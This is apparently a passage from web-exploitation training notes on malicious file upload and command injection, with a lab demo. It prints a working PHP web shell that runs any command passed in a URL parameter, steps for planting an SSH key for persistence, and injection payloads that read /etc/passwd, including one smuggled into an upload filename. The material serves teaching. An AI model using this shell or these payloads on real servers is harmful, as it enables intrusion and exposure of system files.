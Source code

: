 ### <HTML><BODY>
- mal.php
```
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<?php
if($_GET['cmd']) {
system($_GET['cmd']);
}
?>
</pre>
</BODY></HTML>
```
The ability to trick the server to executing arbitrary files based on their extension is especially
common in servers like Apache, Nginx or IIS. However, it also is possible in other frameworks as
well. If there isn’t sanitization on the file name, an attacker can upload files to arbitrary locations as
well.


Imagine we were using the Python framework Flask, which often tracks accessible URIs as routes in
a file called views.py. We might be able to overwrite the normal views.py with our own malicious
version that adds a URI route for command injection.

- Can execute malware from `/tmp` and `/var` directories
- Can also create ssh-key and send to server
    - `ssh-keygen` on host
    - `mkdir /var/www/.ssh` on server
    - `echo "<instert ssh key>" > /var/www/.ssh/authorized_keys` on server
    - ssh to server

**DEMO: Malicious File Upload**

1. Browse to the Demo-Web_Exploit_XSS instance by navigating to http://<float IP>
2. Create malicious file with code above and upload.
3. Navigate to /uploads and click your file or call it directly /uploads/<evil_file>
4. Conduct enumeration to determine how we could develop a secure shell
5. After enumeration, perform commands such as uploading your ssh key

**Command Injection**

Command injection occurs when some input received from a user is used in command execution
on the server-side in a way that allows a malicious actor to execute additional arbitrary commands.

A very basic command injection that is common in home router diagnostic tools is the ping utility.
In this case, a web interface allows users to ping an IP address to see if it is online. A vulnerable
server might do something as simple as execute system("ping -c 1 ".$_GET["ip"]); on the server-
side of the website.; An attacker could leverage this to inject ; cat /etc/passwd, which would make
the overall command that is executed ping -c 1 ; cat /etc/passwd.

While the basic ping command injection example seems obvious, command injection can occur in
places that may not seem inherently obvious. Let’s go back to the image hosting example we’ve
been using. Let’s say the developer wants to check to see if the file being uploaded is actually an
image file. First it checks if the final extension is either .png, .jpg, or .gif. Then it copies the file to
/tmp/imgcheck/filename and runs file /tmp/imgcheck/filename to make sure the file utility
recognizes the file headers as one of the accepted image types. A malicious user could set the
filename of the upload to be ; cat /etc/passwd;#.png. When the script tries to open the path for
writing, it will fail because "/tmp/imgcheck/; cat /etc/passwd;#.png" is not a valid path. However,
when it tries to run the file command, it will execute file /tmp/imgcheck/; cat /etc/passwd;#.png.
